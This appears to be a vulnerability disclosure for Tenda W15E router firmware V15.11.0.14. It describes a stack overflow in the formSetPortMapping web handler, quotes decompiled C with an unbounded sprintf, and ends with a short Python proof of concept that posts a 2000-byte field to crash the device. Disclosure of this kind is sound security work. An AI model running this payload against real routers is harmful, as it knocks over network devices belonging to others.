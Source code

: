 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-2722.html

## Affected version

W15EV1.0 V15.11.0.14

## Vulnerability details

The Tenda W15EV1.0 V15.11.0.14 firmware has a stack overflow vulnerability in the `formSetPortMapping` function. The `pPortMapIndex` variable receives the `portMappingIndex` parameter from a POST request and we let `iPortMapIndex + 1 <= 20`. However, since the user can control the input of `portMappingServer, portMappingProtocol, portMappingWan, porMappingtInternal, portMappingExternal`, the statement

```c
pLanIP = websGetVar(wp, "portMappingServer", byte_DA130);
pProtocl = websGetVar(wp, "portMappingProtocol", byte_DA130);
pWanid = websGetVar(wp, "portMappingWan", byte_DA130);
pLanPortRange = websGetVar(wp, "porMappingtInternal", byte_DA130);
pWanPortRange = websGetVar(wp, "portMappingExternal", byte_DA130);
sprintf(
      (char *)sMibValue,
      "%s;%s;%s;%s;%s;%d",
      (const char *)pWanid,
      (const char *)pWanPortRange,
      (const char *)pLanPortRange,
      (const char *)pLanIP,
      (const char *)pProtocl,
      1);
```

can cause a buffer overflow. The user-provided  `portMappingServer, portMappingProtocol, portMappingWan, porMappingtInternal, portMappingExternal` can exceed the capacity of the `cmd` array, triggering this security vulnerability.

![image-20240417095245951](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417095245951.png)

![image-20240417095309531](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417095309531.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetPortMapping"
payload = b"a"*2000

data = {
        'portMappingIndex': 1,
    	'portMappingServer':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)
